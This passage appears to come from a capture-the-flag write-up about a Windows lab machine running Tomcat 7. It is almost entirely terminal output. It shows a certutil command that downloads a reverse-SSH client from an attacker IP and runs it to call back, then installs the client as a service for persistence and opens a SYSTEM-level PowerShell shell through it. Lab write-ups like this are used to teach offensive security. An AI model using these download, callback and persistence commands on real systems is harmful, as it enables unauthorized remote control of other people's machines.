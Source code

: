 Deploy client

```bash
C:\apache-tomcat-7.0.88>certutil.exe -urlcache -split -f http://10.10.16.13/win/client.exe c:\programdata\client.exe
certutil.exe -urlcache -split -f http://10.10.16.13/win/client.exe c:\programdata\client.exe
****  Online  ****
  000000  ...
  ea7a00
CertUtil: -URLCache command completed successfully.

C:\apache-tomcat-7.0.88>c:\programdata\client.exe -d 10.10.16.13:22521
c:\programdata\client.exe -d 10.10.16.13:22521
```

Connect and implant persistence

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/c2/reverse_ssh/bin]
└─$ ssh 127.0.0.1 -p 22521 ls -t
                            Targets
+------------------------------------------+--------------------------+
| IDs                                      | Version                  |
+------------------------------------------+--------------------------+
| 7dfa16d3907419ee07fe1a3c2a3cc07ff950af21 | SSH-v2.1.5-windows_amd64 |
| fc93c7f5275f694f3ebec8fb4c6f02c3aba98b1c |                          |
| nt.authority.system.jerry                |                          |
| 10.129.136.9:49199                       |                          |
+------------------------------------------+--------------------------+

┌──(bravosec㉿fsociety)-[/opt/sectools/c2/reverse_ssh/bin]
└─$ ssh -J 127.0.0.1:22521 nt.authority.system.jerry -s service --install
```

Open a shell

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/c2/reverse_ssh/bin]
└─$ ssh -J 127.0.0.1:22521 nt.authority.system.jerry
The authenticity of host 'nt.authority.system.jerry (<no hostip for proxy command>)' can't be established.
ED25519 key fingerprint is SHA256:PJ4998W37q0v63SAqd5HV1tgLN2FZsxwqh7fmFWc3RU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:114: [hashed name]
    ~/.ssh/known_hosts:115: [hashed name]
    ~/.ssh/known_hosts:121: [hashed name]
    ~/.ssh/known_hosts:123: [hashed name]
    ~/.ssh/known_hosts:124: [hashed name]
    ~/.ssh/known_hosts:127: [hashed name]
    ~/.ssh/known_hosts:128: [hashed name]
    ~/.ssh/known_hosts:129: [hashed name]
    (18 additional names omitted)
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nt.authority.system.jerry' (ED25519) to the list of known hosts.
Windows PowerShell
Copyright (C) 2014 Microsoft Corporation. All rights reserved.

PS C:\apache-tomcat-7.0.88>
```
